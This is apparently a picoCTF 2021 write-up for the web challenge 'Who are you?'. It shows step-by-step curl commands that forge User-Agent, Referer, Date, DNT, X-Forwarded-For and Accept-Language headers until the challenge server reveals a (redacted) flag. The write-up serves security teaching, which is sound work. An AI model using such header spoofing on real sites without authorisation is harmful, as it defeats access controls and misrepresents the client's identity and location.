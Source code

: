 # Who are you?

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn 

http://mercury.picoctf.net:38322/

Hints:
1. It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616
```
Challenge link: [https://play.picoctf.org/practice/challenge/142](https://play.picoctf.org/practice/challenge/142)

## Solution

Browsing to the website displays the message `Only people who use the official PicoBrowser are allowed on this site!`.  

### Changing the User-agent header

We have the wrong [user-agent header](https://en.wikipedia.org/wiki/User-Agent_header). See [section 14.43 User-Agent](https://datatracker.ietf.org/doc/html/rfc2616#section-14.43) in the RFC.

The user-agent is easiest changed with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$  curl -s -A PicoBrowser http://mercury.picoctf.net:38322/ | grep h3                         
                                <h3 style="color:red">I don&#39;t trust users visiting from another site.</h3>         
```

### Changing the Referer header

Hhm, we need to make it look as if we came from the same site. That is, change the [referer header](https://en.wikipedia.org/wiki/HTTP_referer). See [section 14.36 Referer](https://datatracker.ietf.org/doc/html/rfc2616#section-14.36) in the RFC.

Again, we use `curl` for this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">Sorry, this site only worked in 2018.</h3>  
```

Still not there! 

### Changing the Date header

We also need to change the Date header. See [section 14.18 Date](https://datatracker.ietf.org/doc/html/rfc2616#section-14.18) in the RFC.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">I don&#39;t trust users who can be tracked.</h3>
```

### Changing the DNT header

OK, we also need to change the [Do Not Track (DNT) header](https://en.wikipedia.org/wiki/Do_Not_Track).

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">This website is only for people from Sweden.</h3>
```

More work to do...

### Changing the XFF header

Hhm, we need to change the [X-Forwarded-For (XFF) header](https://en.wikipedia.org/wiki/X-Forwarded-For) as well.  
For that we need a random [IP address in Sweden](https://www.nirsoft.net/countryip/se.html) such as `213.89.89.89`.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 213.89.89.89" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">You&#39;re in Sweden but you don&#39;t speak Swedish?</h3>
```

Still not there!

### Changing the Accept-Language header

We also need to change the Accept-Language header to be `sv`. See [section 14.4 Accept-Language](https://datatracker.ietf.org/doc/html/rfc2616#section-14.4) in the RFC.  

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 213.89.89.89" -H "Accept-Language: sv" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:green">What can I say except, you are welcome</h3>
                        <b>picoCTF{<REDACTED>}</b>
```

And there, finally, we have the flag.

For additional information, please see the references below.

## References

- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [RFC 2616 - HTTP 1.1](https://datatracker.ietf.org/doc/html/rfc2616)
- [Wikipedia - Do Not Track](https://en.wikipedia.org/wiki/Do_Not_Track)
- [Wikipedia - HTTP referer](https://en.wikipedia.org/wiki/HTTP_referer)
- [Wikipedia - User-Agent header](https://en.wikipedia.org/wiki/User-Agent_header)
- [Wikipedia - X-Forwarded-For](https://en.wikipedia.org/wiki/X-Forwarded-For)
